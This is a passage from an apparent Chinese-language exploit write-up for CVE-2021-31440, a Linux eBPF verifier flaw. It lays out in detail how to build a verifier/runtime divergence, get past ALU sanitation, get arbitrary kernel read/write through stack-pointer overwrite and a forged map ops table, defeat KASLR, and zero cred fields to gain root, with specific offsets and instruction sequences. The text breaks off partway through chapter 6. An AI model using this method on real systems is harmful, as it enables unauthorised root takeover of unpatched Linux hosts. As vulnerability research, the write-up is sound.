| `__update_reg_bounds`                 | 从 var_off 精化边界                   | 受影响（基于异常 var_off 进行更新） |
| `tnum_equals_const` 优化路径          | 分支剪枝                              | 受影响（基于错误状态剪枝）          |

最终，**CVE-2021-31440** 的教训表明，即使最严谨的静态分析工具，也可能因一个看似微小的边界检查条件逻辑不当而引发连锁反应，其影响贯穿 Verifier 静态检查、JIT 编译优化和运行时执行三个层面。彻底消除这类漏洞需要更加系统的形式化验证方法，以及在 Verifier 与各辅助函数之间建立统一的参数校验框架，确保抽象解释与运行时语义的一致性。

## 5. 利用思路（v5.11.20）

### 5-1. 总体策略

前文从源码层面剖析了 Verifier 在处理 64 位边界同步时的逻辑缺陷，以及该缺陷如何在状态分裂过程中被放大，最终导致验证器认为某寄存器为常量 0 而运行时实际为 1。这一分歧为构造越界访问提供了理论可能，然而从理论到可落地的利用之间还需要跨越多个工程层面的挑战。本章将系统阐述如何将这一“静态度量分歧”转化为实用的内核内存操作原语，并通过多阶段的地址收集与权限修改，完成权限提升目标。

整个利用流程遵循“触发分歧 → 构造越界原语 → 扩展任意读写 → 提升权限”的渐进式思路，各阶段环环相扣，前一阶段的输出是后一阶段输入的必要条件。具体而言，首先需要利用分歧寄存器精确篡改栈上指针，从而获得指向 `bpf_array` 结构体基址的越界指针；随后利用该指针读取内部字段泄露内核基址和 Map 值区域地址；在此基础上再借助同样的分歧机制实现任意地址读/写；最后通过写操作覆盖当前进程的凭证结构体。每一步都依赖辅助函数与验证器之间的不一致性，同时谨慎避开 ALU Sanitation 等运行时保护。下图概括了整个流程的主要阶段及其数据依赖关系：



每个阶段均依赖前阶段提供的地址信息，因此整个流程是严格串行的。后续各节将分别阐述每阶段的设计思路、关键决策以及潜在边界情况。

### 5-2. 原语构建

原语构建是整个方案中最核心的技术环节，其目标是将“验证器视作安全而运行时越界”的指针转化为可重复使用的读写操作。本节将从数据通道设计、任意读写实现和触发机制三个方面展开说明。

#### 5-2-1. 数据通道设计

为了在用户态与 eBPF 程序之间高效传递控制参数和交换数据，设计了一个统一的通信枢纽——**控制 Map**。该 Map 的类型为 `BPF_MAP_TYPE_ARRAY`，仅包含单个元素，但元素尺寸足够容纳多个 64 位槽位。其布局如下：

- **槽位 0**：存放魔术值 `0x180000000`，用于触发 Verifier 的边界收缩逻辑；
- **槽位 1**：操作码，取值为 `0`（泄露内核基址）、`1`（任意读）或 `2`（任意写）；
- **槽位 2**：通用数据槽，用于存放读结果或待写的值；
- **槽位 3**：辅助输出，例如泄露得到的 Map 值区域地址。

用户态通过 `bpf_update_elem` 将控制参数写入该 Map，eBPF 程序通过 `BPF_LDX_MEM` 指令加载这些值；执行完毕后，用户态再通过 `bpf_lookup_elem` 读取输出结果。这种双向通信方式保证了指令下发与结果回收的原子性和低开销，同时避免了在 eBPF 程序内使用全局变量带来的验证器约束。

除了控制 Map，还使用了一个 socket 缓冲区（`dummy_buffer`）作为辅助的数据通道。具体而言，目标地址（用于读或写）由用户态写入该缓冲区的固定偏移处（例如偏移 8 字节处），eBPF 程序通过 `bpf_skb_load_bytes_relative` 辅助函数从 socket 数据中读取该地址。这种设计将地址参数与操作码分离，使得 eBPF 程序可以独立处理这两个维度，降低了逻辑耦合。

#### 5-2-2. 任意读写实现

任意读和任意写的实现共享相同的核心机制，均依赖 `bpf_skb_load_bytes_relative` 辅助函数在长度参数上的运行时分歧，以覆盖栈上保存的合法指针，使之指向目标内核地址。

**任意读（操作码 1）** 的流程如下：

1. 用户态将待读取的目标内核地址写入 `dummy_buffer` 的偏移 8 处，然后通过 `write` 系统调用触发 BPF 程序执行。
2. eBPF 程序首先从控制 Map 中加载魔术值，经过一系列比较和算术变换后，分歧寄存器 `r6` 在运行时取得值 1（而验证器认为它是 0）。随后程序将 `r6` 加 1 后乘以 8，得到 `r6 = 16`（验证器认为该值为 8）。这个值将作为 `bpf_skb_load_bytes_relative` 的长度参数。
3. 程序将当前 Map 值区域的合法起始地址（即 `&ctrl_map->value[0]`）保存到栈上位置 `[rbp-8]`，该指针在验证器看来始终合法。
4. 调用 `bpf_skb_load_bytes_relative`，其中偏移量为 0（表示从 socket 数据的开头读取），目标缓冲区为 `[rbp-16]`，长度为 `r6`（运行时 16 字节，验证器视为 8 字节）。
5. 该辅助函数内部会执行 `memcpy(to, data, len)`。由于运行时 `len = 16`，实际复制 16 字节数据：前 8 字节覆盖 `[rbp-16]` 到 `[rbp-8]` 之前的区域，而后 8 字节正好覆盖了位于 `[rbp-8]` 的指针值。用户态预先将目标地址放在 `dummy_buffer[8..15]`，因此该地址被写入栈上的指针位置，从而将合法的 Map 指针替换为任意目标内核地址。
6. 此后，程序使用 `BPF_LDX_MEM` 从该篡改后的指针处读取 8 字节数据，并存入控制 Map 的槽位 2。用户态随后读取该槽位即可获得目标地址的内容。

**任意写（操作码 2）** 的流程与之相似，但方向相反：

1. 用户态同样将目标地址写入 `dummy_buffer[8..15]`，同时将待写入的 8 字节值放入控制 Map 的槽位 2。
2. 同样经过栈指针覆盖后，栈上指针指向目标内核地址。
3. 程序从控制 Map 的槽位 2 加载待写入的值，然后通过 `BPF_STX_MEM` 将其存储到该指针所指向的位置。

该设计的巧妙之处在于：分歧值 `r6=1` 从未直接参与指针运算（如 `ptr + r6`），而是以辅助函数参数的身份出现，从而完全绕过了 ALU Sanitation 的检查范围。辅助函数内部的 `memcpy` 操作不受 ALU Sanitation 监控，使得越界写得以成功。下图以任意读为例展示了数据流与控制流：



任意写的流程仅需将最后的“解引用读取”替换为“写入操作”，其余步骤相同。这两种原语均能正确处理 8 字节对齐的数据。对于任意长度的读取或写入，用户态可通过循环调用 8 字节原语，并在最后一段不足 8 字节时进行掩码或截断处理。

#### 5-2-3. 触发机制

所有原语的触发均由用户态通过写 socket 完成。写入 socket 后，挂载在该 socket 上的 eBPF 程序被内核调用执行。用户态在触发前需确保：

- 控制 Map 中已填入正确的魔术值和操作码；
- 对于读/写操作，目标地址已写入 `dummy_buffer` 的约定偏移处；
- 对于写操作，待写入的值已提前放入控制 Map 的槽位 2。

触发后，eBPF 程序在单次执行中完成指针篡改、数据读取或写入，以及结果回写。整个操作在单次系统调用返回前结束，用户态随后通过读取 Map 获取结果。这种“一次性完成”的设计减少了上下文切换开销，但要求 eBPF 程序逻辑简洁，以避免超过 Verifier 的指令数限制。实际构造时需反复调整指令序列，以平衡功能完整性与验证器复杂度限制。

### 5-3. 信息收集

在获得任意读写原语后，首先需要收集内核布局信息，才能定位后续的关键数据结构。信息收集分为两个子阶段：

**子阶段一：泄露内核基址**。通过操作码 `0` 触发 eBPF 程序，越界读取 `bpf_array` 起始处的 `map->ops` 指针（即 `array_map_ops` 函数表地址）。由于该符号在内核映像中的偏移是编译时固定的，将其减去已知的 `ARRAY_MAP_OPS` 偏移即可得到内核基址。同时，读取 `bpf_array` 结构体中 `wait_list.next` 字段（偏移 `0xc0`），该字段指向等待队列头自身，从而可以推算出 Map 值区域的实际地址。该地址在后续伪造操作或辅助地址计算中可能用到。

**子阶段二：定位 `init_task` 符号**。`init_task` 是系统首个进程的 `task_struct` 结构体地址，它是遍历进程列表的起点。由于 KASLR 将内核映像随机化，需要通过任意读原语扫描内核符号表来获取其实际地址。内核符号表分为两个部分：`__ksymtab`（普通导出符号）和 `__ksymtab_gpl`（GPL 专用导出符号）。每条记录包含符号值的相对偏移和名字字符串的相对偏移。通过从段起始地址开始逐条读取记录并比对名字字符串，可以定位到 `init_task` 的符号表项，进而解析出其运行时地址。如果目标内核开启了某些优化或符号表结构有所变化，可适当调整搜索范围。

### 5-4. 提权触发

提权触发是指将任意写作用于当前进程的 `cred` 结构体，从而改变进程的有效用户 ID。具体过程为：

1. 在获取当前进程的 `task_struct` 地址后，从其固定偏移（如 `0xad8`）处读取 `cred` 指针。
2. 利用任意写原语，依次将 `cred` 结构体前四个字段（`uid`、`gid`、`euid`、`egid`）清零。这些字段通常以 4 字节或 8 字节存储，本方案采用 8 字节写入，一次性覆盖整个字段。
3. 清零完成后，当前进程的有效用户 ID 变为 0，即具备 root 权限。
4. 随后执行 `execve("/bin/sh")` 启动一个交互式 shell，该 shell 将继承当前进程的凭证，从而以 root 身份运行。

整个过程不需要额外恢复操作，因为其他权限相关字段（如 capabilities）不影响基本的 uid/gid 判定，且程序执行完毕后立即产生新 shell，不会继续执行可能触发异常的内核操作。

### 5-5. 整体流程

综合上述各环节，完整的利用流程可用泳道图表示，清晰展示用户态与内核态之间的交互及数据流：



整个流程中，用户态负责控制逻辑和地址计算，内核态负责执行越界访问并返回数据。双方通过控制 Map 和 socket 缓冲区进行交互，未引入额外的内核模块或文件系统操作。

### 5-6. 内核保护机制应对策略

现代内核启用了多项安全加固措施，本方案针对以下几种关键保护机制设计了规避策略：

- **KASLR**：通过泄露 `array_map_ops` 指针计算内核基址，完全抵消地址随机化的影响。
- **SMEP/SMAP**：整个操作过程中，所有指针均指向内核内存，且不执行用户态代码，因此这两项防护不会造成阻碍。
- **KPTI**：虽然 KPTI 隔离了用户态与内核态的页表，但本方案通过系统调用和 BPF 辅助函数从内核上下文访问内存，不受 KPTI 隔离影响。
- **ALU Sanitation**：分歧值仅用作辅助函数参数而非指针偏移，完全避开 ALU Sanitation 的检查。辅助函数内部的 `memcpy` 操作不在其监控范围内，从而绕过了这一运行时保护。
- **Verifier 常量折叠**：`bpf_skb_load_bytes_relative` 的长度参数在验证时被折叠为常量，但 Verifier 仅检查长度是否在允许范围内，而不验证其运行时的实际值。因此，即使运行时长度与验证时不同，程序仍能通过检查。

上述策略针对本漏洞的特性提供了有效的绕过路径。实际利用时需根据目标内核的具体补丁状态进行调整，并注意某些发行版可能额外增加限制（如 `kernel.unprivileged_bpf_disabled`）。

### 5-7. 利用条件与局限性

#### 5-7-1. 必要条件

成功利用需满足以下条件：

1. **内核版本**：v5.7 至 v5.11.20（含），且未应用补丁 `10bf4e83167c`。
2. **BPF 子系统启用**：内核编译时开启 `CONFIG_BPF_SYSCALL` 及相关选项，并且允许非特权用户加载 eBPF 程序（即 `kernel.unprivileged_bpf_disabled` 为 0）。
3. **辅助函数可用**：目标内核必须支持 `bpf_skb_load_bytes_relative`（自 v5.9 引入）。对于更早的内核，需要改用其他具有类似长度参数的辅助函数。
4. **符号偏移已知**：需要预先知道 `array_map_ops` 符号在内核映像中的偏移，以及符号表段的起始与结束地址。这些信息通常可通过相同版本内核的 `/proc/kallsyms` 或调试信息获取。

#### 5-7-2. 局限性

- **内核版本局限**：仅影响 v5.11.20 及之前版本；v5.11.21 已修复该漏洞。
- **辅助函数依赖**：若目标内核不支持 `bpf_skb_load_bytes_relative`，则需要替换为其他具有类似功能的辅助函数，但溢出技巧可能需要相应调整。
- **非特权限制**：如果系统管理员将 `kernel.unprivileged_bpf_disabled` 设为 1，则非 root 用户无法加载 eBPF 程序，此时需要先获取 `CAP_BPF` 能力或通过其他途径绕过。
- **JIT 依赖性**：虽然漏洞本身不依赖 JIT，但本方案中验证器的常量折叠行为在解释器模式下可能有所不同，需提前确认目标内核的 BPF JIT 配置（`CONFIG_BPF_JIT`）。
- **偏移固定性**：利用代码中使用的符号偏移是针对特定内核版本的，不同版本或不同编译配置需要重新适配。
- **可靠性**：由于 eBPF 验证器存在路径爆炸风险，构造的程序必须精心设计以确保通过验证，且触发时需避免竞争条件。

### 5-8. 总结

本章从高层面完整勾勒了利用 **CVE-2021-31440** 的完整技术路径，将前文分析的 Verifier 缺陷转化为一系列可操作的实施步骤。整个方案遵循“先泄露后写、先基址后凭证”的渐进式策略，所有操作均在用户态可控范围内完成，无需依赖额外的内核漏洞。

核心创新点包括：

1. 将分歧寄存器作为辅助函数长度参数，完美规避 ALU Sanitation 保护；
2. 利用栈上指针逐步篡改技术，从合法 Map 指针平滑过渡到 `bpf_array` 基址；
3. 通过 `bpf_skb_load_bytes_relative` 的 `memcpy` 副作用实现任意读/写，避免使用复杂的函数表伪造。

尽管存在一定的版本和配置依赖性，但在目标范围内，本方案具有较高的通用性和可靠性。实际部署时，建议充分测试目标内核的具体版本和配置，必要时调整符号偏移和辅助函数选择。随着内核安全加固的不断演进，此类利用手法可能逐渐失效，但对于理解 eBPF 验证器安全模型及漏洞利用技术的研究，本章提供了一份完整的案例分析。

### 5-9. 测试结果

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 6. 利用思路（v5.11.16）

### 6-1. 总体策略

本章延续第五章的利用框架，但针对 **v5.11.8 至 v5.11.16** 这一特定内核版本区间进行了适配与优化。与第五章所针对的 v5.11.20 不同，该版本区间的 ALU Sanitation 机制存在特殊性：`commit 10d2bb2e6b1d8c` 修复了 `alu_limit` 整数溢出漏洞，使得原先依赖 `alu_limit = 0` 下溢的绕过方式失效，但**预偏移绕过模型**（即在指针运算前预先加上一个足够大的常量偏移，使 `alu_limit` 变为非零值，从而避免触发 ALU Sanitation 的清零逻辑）在该版本区间内仍然有效。

本章的利用方案在核心思路上与第五章保持一致，均基于同一漏洞根源——Verifier 在 `__reg_combine_64_into_32` 中对无符号 32 位边界的独立检查缺陷。但在原语构建、信息收集和提权触发等环节上，针对该版本的内核行为特点进行了若干关键调整，具体包括：

- **双 Map 设计**：将控制通道（`ctrl_map`，用于泄露、读取和安装伪造函数表）与写入通道（`write_map`，专用于任意写）分离，避免因频繁修改同一 Map 结构而导致状态污染或验证器误判。
- **独立任意读写原语**：读操作通过覆盖 `ctrl_map->map.btf` 指针配合 `bpf_map_get_info_by_fd` 实现，写操作则通过伪造 `write_map->map.ops` 函数表配合 `bpf_update_elem` 实现。两种原语相互独立，可交替使用，互不干扰。
- **预偏移绕过 ALU Sanitation**：利用 `alu_limit` 在 `0x1000` 偏移下的非零特性，通过先加后减的方式绕过运行时检查，精确构造指向 `bpf_array` 头部的越界指针。该绕过模型在 v5.11.8 至 v5.11.16 区间内有效，且不依赖于已修复的整数溢出漏洞。

此外，在分歧寄存器构造上，本章展示了一种与第五章不同的实现方式——使用魔术值 `2` 配合移位、取反和比较操作序列。两种魔术值 (`0x180000000` 和 `2`) 在该版本区间内均能正常工作，采用 `2` 仅是为了展示触发技术的多样性，而非因为前者被任何保护机制拦截。

下图概括了整个流程的主要阶段及其数据依赖关系：

```mermaid
flowchart TD
    Start[环境搭建：创建双 Map 并加载 BPF 程序] --> Leak[阶段1: 泄露内核基址]
    Leak --> LocateInit[阶段2: 定位 init_task 符号]
    LocateInit --> FindCurrent[阶段3: 遍历任务列表寻找当前 task_struct]
    FindCurrent --> ReadCred[阶段4: 通过 btf 覆盖读取 cred 指针]
    ReadCred --> Install[阶段5: 安装伪造 ops 到 write_map]
    Install --> WriteCred[阶段6: 通过 write_map 覆盖 cred 字段]
    WriteCred --> Shell[获得 root shell]
```

### 6-2. 原语构建

原语构建阶段的核心目标与第五章相同，即将分歧寄存器转化为可重复使用的越界指针，进而构建读写原语。但由于 ALU Sanitation 的整数溢出漏洞已被修复，预偏移绕过模型成为该版本区间的主要手段，并且需要同时处理两个独立的 Map。

#### 6-2-1. 数据通道设计

为适应不同阶段的利用需求，本章采用**双 Map 数据通道**架构，将控制功能与写入功能解耦。这一设计决策源于本版本区间写原语的特殊性——任意写需要通过伪造 `write_map` 的函数表实现，而安装伪造函数表会永久性地改变该 Map 的 `map->ops` 指针。若读写共用同一个 Map，安装伪造函数表后将导致读原语所需的合法 `map->ops` 被覆盖，从而丧失读取能力。因此必须将读写功能分离到两个独立的 Map 中。

**控制 Map（`ctrl_map_fd`）**：类型为 `BPF_MAP_TYPE_ARRAY`，元素尺寸为 `0x2000` 字节，用于承载以下功能：

- **操作码调度**：槽位 1 存储操作码（`0`：泄露内核基址，`1`：任意读，`2`：安装伪造函数表）；
- **内核基址泄露**：槽位 3 存储泄露得到的 `array_map_ops` 指针；
- **伪造函数表存放**：槽位 5 及之后用于存放待安装的伪造 `bpf_map_ops` 结构体；
- **读目标地址**：槽位 2 存放任意读的目标内核地址；
- **辅助地址输出**：槽位 4 存储由 BPF 程序计算的 `write_map` 伪造函数表区域地址。

**写入专用 Map（`write_map_fd`）**：同样为 `BPF_MAP_TYPE_ARRAY`，元素尺寸 `0x2000`，专用于任意写操作。该 Map 的值区域在安装伪造函数表后，其 `map->ops` 指针被替换为指向伪造的函数表，从而实现写入原语。

两个 Map 的 `value_size` 均设置为 `0x2000`（大于 `0x1000`），以满足预偏移绕过模型对 Map 尺寸的要求。预偏移绕过的数学原理已在第二章第七节第一小节中详细阐述——在指针运算前加上常量偏移 `K=0x1000`，使 `alu_limit` 被设置为非零值 `0x1000`，从而避免 ALU Sanitation 的清零检查。由于两个 Map 的值区域均足够大，指针在预偏移后仍处于合法范围内，不会触发 Verifier 的越界检查。

这种双 Map 架构的核心优势在于：一旦 `write_map` 的 `map->ops` 被替换为伪造函数表，该状态将被永久保留，而 `ctrl_map` 的读原语不受影响，二者可以独立交替使用，无需反复恢复现场——因为读原语依赖的是 `ctrl_map->map.btf` 而非 `map->ops`，两者互不重叠。下图展示了双 Map 架构下读/写原语的独立性：



#### 6-2-2. 分歧寄存器构造

本章采用与第五章不同的魔术值来触发分歧寄存器，旨在展示同一漏洞在不同构造方式下的灵活性。无论使用 `0x180000000` 还是 `2`，其核心都是利用 Verifier 在范围跟踪上的缺陷，使静态分析与运行时行为产生分歧。

采用魔术值 `2` 的构造流程如下：

1. 从控制 Map 的槽位 0 加载魔术值 `2` 到寄存器 `r6`。
2. 执行 `r6 <<= 32`，使 Verifier 丢失对该寄存器高 32 位的跟踪。
3. 连续执行两次 `r6 = -r6`（取反操作），运行时值保持不变（因为 `-(-x) = x`），但 Verifier 对范围的理解被进一步混淆。
4. 通过有符号比较 `if r6 >= 1` 和无符号 32 位比较 `if (s32)r6 <= 1`，将 Verifier 认为的寄存器范围逐步收窄为 `1`。
5. 执行 `r6 = (u32)r6`（截断为 32 位），运行时 `r6` 变为 `0`（因为 `2` 的高位在移位和取反后已被消除），而 Verifier 仍认为 `r6 = 1`。
6. 执行 `r6 *= -1`，Verifier 得到 `-1`，运行时保持 `0`。
7. 执行 `r6 += 1`，Verifier 得到 `0`，运行时变为 `1`。

最终得到分歧寄存器：Verifier 认为 `r6=0`，运行时 `r6=1`。这一构造是该版本区间内所有后续操作的基石。需要说明的是，第五章中使用的 `0x180000000` 魔术值同样适用于本版本区间——ALU Sanitation 机制既不针对特定魔术值进行过滤，也不具备识别特定数值的能力。采用 `2` 仅是为了展示同一漏洞可以有不同的触发路径，增加利用技术的多样性。

#### 6-2-3. 预偏移绕过与越界指针构造

获得分歧寄存器后，需要将其应用到 Map 指针上，构造越界指针。预偏移绕过模型的具体实现如下：

以控制 Map 为例，设其值区域起始地址为 `p`（即 `&ctrl_map->value[0]`），分歧寄存器 `r6` 满足 `r6^{mathcal V}=0`、`r6^{mathcal R}=1`。构造以下指针运算序列：

1. `r7 = p + 0x1000`，此时 ALU Sanitation 的 `alu_limit` 被设为 `0x1000`。
2. `r8 = r6 * 0x1000`，Verifier 认为结果为 0，运行时结果为 `0x1000`。
3. `r7 = r7 - r8`，运行时 `r7 = p`，Verifier 认为 `r7 = p + 0x1000`。
4. `r6 = r6 * 0x110`，Verifier 认为结果为 0，运行时结果为 `0x110`。
5. `r7 = r7 - r6`，运行时 `r7 = p - 0x110`（即 `bpf_array` 头部起始地址），Verifier 认为 `r7 = p + 0x1000`（仍合法）。

关键点在于：由于 `r8` 的运行时值恰好等于 `0x1000`（等于 `alu_limit`），不满足 `> alu_limit` 条件，ALU Sanitation 的清零检查被绕过。若 `r8` 的值大于 `0x1000`，则 ALU Sanitation 会将 `r8` 清零，导致回退失败。因此 `0x1000` 这一临界值的选取至关重要——它既足够大以满足预偏移的需求，又恰好等于 `alu_limit` 从而不触发清零。该构造同样应用于 `write_map`，得到其 `bpf_array` 头部的越界指针。两个 Map 的头部指针分别存储在不同的寄存器中，互不干扰。

#### 6-2-4. 任意读实现

任意读原语通过覆盖 `ctrl_map` 的 `map->btf` 指针实现，核心机制如下：

1. 用户态将待读取的目标内核地址写入 `ctrl_buffer[2]`，操作码设为 `1`，触发 eBPF 程序。
2. BPF 程序从 `ctrl_buffer[2]` 加载目标地址，并将其写入 `ctrl_map->map.btf` 字段（偏移 `0x40`），写入时减去固定偏移 `0x58`——该偏移对应 `btf` 结构体中 `id` 字段的偏移。
3. 程序返回后，用户态调用 `bpf_map_get_info_by_fd` 系统调用，内核会从 `ctrl_map->map.btf` 指向的地址偏移 `0x58` 处读取 4 字节，作为 `btf_id` 字段返回。
4. 用户态从返回的 `info` 结构中提取该 4 字节值，即为目标地址处的内存内容。

此原语每次读取 4 字节，对于 8 字节或任意长度读取，通过循环调用 4 字节原语并拼接结果即可。由于每次读操作后 `ctrl_map->map.btf` 指针会被恢复为合法值（由 BPF 程序在每次执行时重新写入），该原语可无限次重复使用，不会污染 Map 状态。

#### 6-2-5. 任意写实现

任意写原语通过伪造 `write_map` 的函数表实现，核心机制如下：

1. 在泄露阶段获得内核基址后，用户态通过任意读原语从内核中读取完整的 `array_map_ops` 函数表，复制到 `ctrl_buffer[5]` 及其之后的位置。
2. 将复制得到的函数表中的 `map_push_elem` 指针替换为 `array_map_get_next_key` 的运行时地址。`array_map_get_next_key` 是一个接受两个指针参数（Map 对象指针和输出键指针）的内核函数，其行为在特定条件下可用于构造写入。
3. 用户态将操作码设为 `2`，触发 BPF 程序。程序将 `ctrl_buffer[5]` 处的伪造函数表地址写入 `write_map->map.ops`，同时将 `write_map->map.map_type` 设置为 `BPF_MAP_TYPE_STACK`（`0x17`），将 `max_entries` 设置为 `-1`，将 `spin_lock_off` 设为 `0`，以绕过内核中针对该 Map 类型在 `map_push_elem` 调用时的若干检查（包括类型校验和边界验证）。
4. 安装完成后，用户态调用 `bpf_update_elem(write_map_fd, key, value, flags)`，其中 `key` 参数为目标内核地址（作为指针参数传递给 `array_map_get_next_key`），`value` 参数为待写入值减 1。内核在调用 `map->ops->map_push_elem` 时，实际执行的却是 `array_map_get_next_key`，该函数将 `value + 1` 写入 `key` 指向的位置，从而实现任意 4 字节写入。

此原语与任意读原语完全独立——修改 `write_map` 的 `map->ops` 不会影响 `ctrl_map` 的 `map->btf` 字段，因此两种原语可在任意时刻交替使用。

#### 6-2-6. 触发机制

所有原语的触发均由用户态通过写 socket 完成，与第五章保持一致。触发前需确保：

- 控制 Map 中已填入正确的魔术值 `2` 和操作码；
- 对于读操作，目标地址已写入 `ctrl_buffer[2]`；
- 对于安装伪造函数表操作，完整的伪造函数表已填入 `ctrl_buffer[5]` 及其之后的位置；
- 写入 Map 中已填入魔术值 `2`（用于保持与 `ctrl_map` 一致的状态，使 BPF 程序中的边界构造逻辑能够正确处理）。

触发后，BPF 程序在单次执行中完成指针篡改、数据读取或函数表安装，然后返回。用户态根据操作码采取后续动作——读操作需调用 `bpf_map_get_info_by_fd` 获取结果，安装操作直接使用 `bpf_update_elem` 即可。

### 6-3. 信息收集

信息收集阶段与第五章基本一致，分为两个子阶段：

**子阶段一：泄露内核基址**。通过操作码 `0` 触发 eBPF 程序，利用越界指针读取 `ctrl_map` 对应 `bpf_array` 起始处的 `map->ops` 指针（即 `array_map_ops` 函数表地址），减去内核映像中的固定偏移 `ARRAY_MAP_OPS` 即可得到内核基址。同时，BPF 程序会读取 `ctrl_map->map.freeze_mutex.wait_list.next` 字段（偏移 `0xc0`），该字段指向等待队列头自身，加上固定偏移后即可得到 `write_map` 值区域中可用于存放伪造函数表的起始地址。该地址被写入 `ctrl_map[4]`，供后续安装操作使用。

**子阶段二：定位 `init_task` 符号**。利用任意读原语扫描内核符号表 `__ksymtab` 和 `__ksymtab_gpl`，通过逐条比对符号名字符串定位 `init_task` 的符号表项，从而获得其在运行时的实际地址。符号表扫描的具体方法已在第五章中详述，此处不再重复。

### 6-4. 提权触发

提权触发阶段分为两个步骤：

**步骤一：安装伪造函数表**。用户态使用任意读原语从内核读取完整的 `array_map_ops` 函数表，将其中的 `map_push_elem` 替换为 `array_map_get_next_key` 的运行时地址，然后将伪造表填入 `ctrl_buffer[5]` 及其之后的位置，触发操作码 `2`。BPF 程序将伪造表地址写入 `write_map->map.ops`，并设置相应的类型和边界字段以绕过检查。安装完成后，`write_map` 的写原语即处于激活状态。

